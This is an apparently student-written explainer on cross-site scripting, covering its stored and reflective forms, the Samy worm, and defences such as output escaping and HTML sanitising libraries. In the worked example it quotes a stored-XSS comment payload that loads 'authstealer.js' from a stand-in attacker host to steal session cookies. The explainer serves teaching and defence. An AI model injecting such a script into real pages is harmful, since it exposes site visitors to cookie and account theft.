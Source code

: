 Cross-Site Scripting
====================

Introduction
------------


Cross-site scripting is when an attacker inserts code into a legitimate website 
and is considered one of the more dangerous website vulnerabilities. Web sites are 
vulnerable  when they don't use validation or encoding on user generated 
data. This is dangerous for the site users, who are at risk for their data being 
stolen. There are several different ways for web applications to help prevent 
Cross-Site Scripting, such as escaping characters, Signature based filtering, 
and avoiding/validating HTML given by users. Users can also take precautions, such 
as using anti-viruses, checking that the sites they are using are safe, and being 
careful of clicking on unknown links.  


What is Cross-Site Scripting and Why is it Dangerous?
-----------------------------------------------------


XSS, or Cross-Site Scripting is inserting malicious code into an actual website 
to gather information from the users. Most of the danger lies on the users of the 
sites, as the code targets their information and use rather than the website itself. [XSS]_ 


* Some examples of what dangerous XSS could do include: 

	1. Access session cookies, which can be used to impersonate the user
	2. Keylogging, which tracks the users keystrokes to catch usernames and passwords, 
	    
	3. Phishing, or sending out fake and/or malicious emails, usually to steal user 
	   data such as usernames and passwords. 
	4. Installing malicious software or viruses on the user's computer
	5. and Identity Theft [xss]_
	
These attacks can be damaging if the attacker manages to steal a user's username and/or 
password. They can be used to get into user accounts and either use their accounts as 
dummy accounts to send out other attacks, steal the users private, saved information, 
or could be used to purchase items in the users's name if their purchasing information is 
included in the account, such as an Amazon Prime or credit card account.
	
* There are two different types of XSS attacks, stored and reflective

	* Stored XSS is "stored", or imbedded, on the website itself and steals data every time 
	  the website is visited. [xss-prevention]_ It is also known as "persistent XSS", 
	  and can be the more dangerous of the two types. [xss-attacks]_

	* Reflective XSS is stored in a link embedded in the website that the user has to 
	  click on to activate. [xss-attacks]_ 
 
  
XSS attacks have been around since the start of the web, first becoming a problem when 
JavaScript language was introduced to the web application world. [Grossman]_

* One of the earliest XSS worms was known as "Samy", which was a small code that 
  a 19 put in his MySpace profile to add anyone who viewed his profile as a friend. 
  But it also added the code invisible to everyone who viewed his page, and it 
  quickly multiplied exponentially, adding over one million friend requests in just over  
  24 hours before MySpace took the website down. [Grossman]_ [Franceschi]_ 

What Can Be Done to Prevent XSS through Web Security
----------------------------------------------------
	
* Web Application Firewall (WAF) - the most common protection [xss-attacks]_ 
	
	* Many web browsers now come with built-in defenses against some XSS attacks. 
	  This mostly works on reflective XSS, as the browsers can detect when common attack 
	  senarios are run, and can neutralize them even if the user clicks on the link 
	  itself. [Shema]_
	
* Signature based Filtering - "identifies and blocks malicious requests" [xss-attacks]_ 
	
* Use escape characters -  escape any characters that could change the websites code [xss-prevention]_ 
	
	* PHP Applications can use ``htmlentities()`` , a built in function for 
	  escaping characters 
	
	* Also escape any HTML, attribute, JavaScript, JSON (with HTML), CSS, and URL 
	  before entering any un-trusted or un-validated data [xss_cheat_sheet]_
	  
	* One way to do this is to use regular expressions to validate data that is entered. 
	  Regular expressions often include escape characters that would be allowed, such as 
	  ``\.`` for "." Regular expressions can also be used to find special characters 
	  and escape them with a special sequences  such as ``&amp;`` for &. [Watts]_  
	  
	* Many browers use a *blacklist* or a *whitelist* with regular expressions. 
	  The *blacklist* looks for matches to disallowed data, while the *whitelist* 
	  matches valid data. [Shema]_ 
	
* Escape data output, not input - when displaying to user [xss-prevention]_ 

	* "Security researcher Jouko Pynnönen of Klikki Oy realized MySQL column 
	  truncation can defeat before-insert XSS prevention strategies" [xss-prevention]_

* Avoid using straight HTML - use a markup language, such as Markdown or 
  ReStructuredText

* If HTML is needed, such as on blogging site where users may expect the ability 
  to use HTML on their personal blogs and/or comments, use a library such as HTML 
  Purifier to help validate the HTML [xss-prevention]_ 


What You Can Do To Spot/Prevent XSS
---------------------------

* Be careful of links that you click on in websites and through emails. Phishing 
  attacks are usually heard coming through emails, and happen when the user clicks on a 
  link that leads them to a malicious website. 
  
	* For example, if you get an email saying that your password/username has expired 
	  or needs to be changed, the safest option is to go to a new tab and go to the 
	  website yourself to see if the password/username really needs changed, and if 
	  it does, you can change it through the website itself. 
	  
	* The same process should be used if you get an email saying that your shipping 
	  or billing information needs to be updated for an online order. 

* Make sure that websites that you are visiting are safe, or take precautions before 
  or while you are on the website. 
  
	* Some anti-viruses, such as Norton and Kaspersky, come with web add-ons that will 
      check out websites when you google them. For Kaspersky, this can show up as a 
	  green tag with a K inside next to websites that it has verified are safe to 
	  visit, a grey version next to links that it cannot verify, and a red version for 
	  links that are deemed dangerous. 

* Have a good Anti-Virus/ Web Security, such as McAfee AntiVirus Plus, Bitdefender 
  AnitVirus Plus, or Kaspersky Anti-Virus. As shown above, these can protect you from 
  malicious links while googling, but they can also protect the user from phishing 
  and keylogging attempts.  

Example of Cross-Site Scripting:
-------------------------------

.. figure:: stored_XSS.png

	Stored XSS [xss-attacks]_ 

	
* Stored XSS Example: An attacker figures out that the comment section of a website can store 
  HTML tags. They leave a comment that says: 
  
  "Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>" [xss-attacks]_
  
  This is stored in the website, and every time someone visits the page, they can 
  have their session cookies stolen. 


	* However, this is harder for hackers to attempt, because they must find a 
	  highly trafficked site that also has a security hole that they can infiltrate. [xss-prevention]_
	
	
* Reflective XSS: Similar to above, except that the user would have to click on the link 
  to activate the code. 


Sources
-------

.. [xss-attacks] "`Cross Site Scripting (XSS) Attacks <https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html>`_." Incapsula.com. Imperva, n.d. Web. 18 Feb. 2017.

.. [xss-prevention] "`Everything You Need to Know About Preventing Cross-Site Scripting Vulnerabilities in PHP - Paragon Initiative Enterprises Blog <https://paragonie.com/blog/2015/06/preventing-xss-vulnerabilities-in-php-everything-you-need-know>`_." RSS. Paragon Initiative Enterprises , 16 June 2015. Web. 19 Feb. 2017. 

.. [Franceschi] Franceschi-Bicchierai, Lorenzo. "`The MySpace Worm that Changed the Internet Forever. <https://motherboard.vice.com/en_us/article/the-myspace-worm-that-changed-the-internet-forever>`_." Motherboard. Motherboard, 04 Oct. 2015. Web. 23 Feb. 2017. 

.. [Grossman] Grossman, Jeremiah. *XSS Attacks: Cross-site Scripting Exploits and Defense*. N.p.: Syngress, 2007. Print. 

.. [Shema] Shema, Mike. “HTML Injection & Cross-Site Scripting (XSS).” *Hacking Web Apps: Detecting and Preventing Web Application Security Problems* , Syngress, 2012, pp. 23–78.

.. [Watts] Watt, Andrew. *Beginning Regular Expressions*. Indianapolis , IN, Wiley, 2005. Print.  

.. [xss] "`What is Cross-Site Scripting and How Can You Fix it? <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_." Acunetix. Acunetix. n.d. Web. 16 Feb. 2017. 

.. [xss_cheat_sheet] "`XSS (Cross Site Scripting) Prevention Cheat Sheet <https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>`_." XSS (Cross Site Scripting) Prevention Cheat Sheet - OWASP. OWASP, n.d. Web. 19 Feb. 2017.



*Written by Kyann, Edited by Rasim and Cole.*

